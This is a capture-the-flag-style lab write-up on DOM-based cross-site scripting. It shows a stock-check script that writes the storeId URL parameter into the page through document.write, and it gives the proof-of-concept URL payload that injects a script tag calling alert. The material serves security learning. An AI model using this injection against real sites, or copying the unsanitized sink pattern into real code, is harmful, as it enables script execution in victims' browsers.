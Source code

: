 # Lab: DOM XSS in document.write sink using source location.search inside a select element

> Lab Objective: perform a cross-site scripting attack that breaks out of the select element and calls the `alert` function.

- Firstly, visit View Details page of any product, and review page source code, You'll find this JS code snippet.
  ![1st Screenshot](./Photos/1.png)

```html
<form id="stockCheckForm" action="/product/stock" method="POST">
  <input required type="hidden" name="productId" value="5" />
  <script>
    var stores = ["London", "Paris", "Milan"];
    var store = new URLSearchParams(window.location.search).get("storeId");
    document.write('<select name="storeId">');
    if (store) {
      document.write("<option selected>" + store + "</option>");
    }
    for (var i = 0; i < stores.length; i++) {
      if (stores[i] === store) {
        continue;
      }
      document.write("<option>" + stores[i] + "</option>");
    }
    document.write("</select>");
  </script>
  <button type="submit" class="button">Check stock</button>
</form>
```

- This code is used to check how many units are available in a specific store (e.g., London).
  ![2nd Screenshot](./Photos/2.png)

- I can control the variable `store` in the following line when using the Burp Suite to send the `Check Stock` Request

```js
var store = new URLSearchParams(window.location.search).get("storeId");
```

- Since, he gets the value of `store` variable using `location.search` source, and doesn't check whether the value itself is in the available stores or not (available stores => `var stores = ["London", "Paris", "Milan"];`), and add it anyways to the DOM using `document.write` sink.

- So, I'll use the fact that `document.write` sink accepts script elements, and use this payload:

```html
<script>
  alert(0);
</script>
```

- I'll add the `storeId` in the URL as a parameter and the crafted payload as a value, and send that request

```
/product?productId=5&storeId=London<script>alert(0);</script>
```

- And the `alert` function is executed successfully.
  ![3rd Screenshot](./Photos/3.png)

- Therefore, the lab is solved successfully.
  ![4th Screenshot](./Photos/4.png)

---
